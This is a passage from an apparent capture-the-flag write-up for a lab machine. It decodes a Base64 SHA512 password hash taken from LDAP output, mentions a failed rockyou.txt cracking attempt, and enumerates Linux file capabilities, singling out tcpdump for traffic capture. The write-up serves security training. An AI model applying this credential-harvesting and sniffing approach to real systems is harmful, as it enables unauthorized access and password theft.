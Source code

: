 ```
userPassword:: e2NyeXB0fSQ2JHhKeFBqVDBNJDFtOGtNMDBDSllDQWd6VDRxejhUUXd5R0ZRdms
 zYm9heW11QW1NWkNPZm0zT0E3T0t1bkxaWmxxeXRVcDJkdW41MDlPQkUyeHdYL1FFZmpkUlF6Z24x
shadowLastChange: 17691
shadowMin: 0
shadowMax: 99999
shadowWarning: 7
loginShell: /bin/bash
uidNumber: 1001
gidNumber: 1001
homeDirectory: /home/ldapuser2
```

We can see two sets of credentials here. These are actually Base64 encoded versions of the Linux SHA512 hashes.

First hash decodes to: `{crypt}$6$3qx0SD9x$Q9y1lyQaFKpxqkGqKAjLOWd33Nwdhj.l4MzV7vTnfkE/g/Z/7N5ZbdEQWfup2lSdASImHtQFh6zMo41ZA./44/`

None of the hashes could be cracked using `rockyou.txt`, so we have to get the password some other way.

### Checking caps

I checked the entire filesystem for any files running with elevated capabilities. Capabilities are used when a program need some kind of privilege that would normally require root access. With caps, we can give specific privileges to the binary without making the file suid or running it directly as root.

```
[10.10.14.23@lightweight ~]$ getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
```

Here, `tcpdump` has some caps set to allow a regular user to capture traffic on any interface.

As per [http://man7.org/linux/man-pages/man7/capabilities.7.html](http://man7.org/linux/man-pages/man7/capabilities.7.html), the exact description of the caps are:

```
CAP_NET_ADMIN
    Perform various network-related operations:
    * interface configuration;
    * administration of IP firewall, masquerading, and accounting;
    * modify routing tables;
    * bind to any address for transparent proxying;
    * set type-of-service (TOS)
    * clear driver statistics;
    * set promiscuous mode;
    * enabling multicasting;

CAP_NET_RAW
    * Use RAW and PACKET sockets;
    * bind to any address for transparent proxying.
```

